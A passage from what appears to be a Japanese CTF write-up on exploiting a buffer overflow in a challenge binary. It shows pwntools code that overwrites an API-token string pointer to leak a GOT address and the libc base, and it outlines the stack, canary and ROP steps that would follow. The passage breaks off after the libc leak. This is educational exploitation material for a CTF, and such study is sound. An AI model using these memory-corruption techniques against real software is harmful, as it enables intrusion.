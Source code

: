 さて、BoFを起こすことができましたが、canaryはオンになっています。
これをリークすることができればROPで任意コード実行に持っていけそうです。

これは難しくなく[^2]、BoFを起こすことができたStringのすぐ下にAPIトークンを持つstringが格納されています。
プロンプトの実行を行うことでAPIトークンを出力させることができるため、
APIトークンのstringが持つポインタを書き換えてしまえばAARが可能になります。

実際に以下のようなコードを実行すると`getchar`のアドレスが出力されていることが確認できます。

```py
update(b'abc')
update(b'A'*0x10 + p64(elf.got('getchar')) + p64(8))
run()
```

{{ image(path="static/img.png", caption="leakの発生") }}

## 攻撃

以下の手順で任意コード実行まで持っていくことができそうです。

1. libcのleak
2. environを用いたstackのleak
3. canaryのleak
4. ROP

まずはヘルパ関数を定義します。

```py
    def run() -> bytes:
        sla(b"choice: ", i2b(1))
        return t.recvuntil(b"1. Run")

    def update(msg: bytes):
        sla(b"choice: ", i2b(2))
        sa(b"ask me?", msg)

    def fin():
        sla(b"choice: ", i2b(3))
```

### libcのleak

PIEが無効なので、上記のようにAPIトークンのポインタをGOTテーブルにしてあげるとlibcのleakができます。

```py
    update(b"ABCD\n")
    update(b"A" * 0x10 + p64(elf.got["getchar"]) + p8(8) + b"\n")
    buf = run()
    info(buf)
    t.interactive()
    buf = buf[buf.find(b"with token ") + 12 :][:8]
    info(f"{buf=:}")
    libc_base = s2u64(buf) - 0x87B60
    success(f"{libc_base=:x}")
```


[^1]: このブログは全ページ全pwner読むべきだと思っています
[^2]: libcからTLSへのオフセットが一定だと思っていて、Master Canaryをleakしようとして1時間とかしました(ASLRをオフにしていただけ)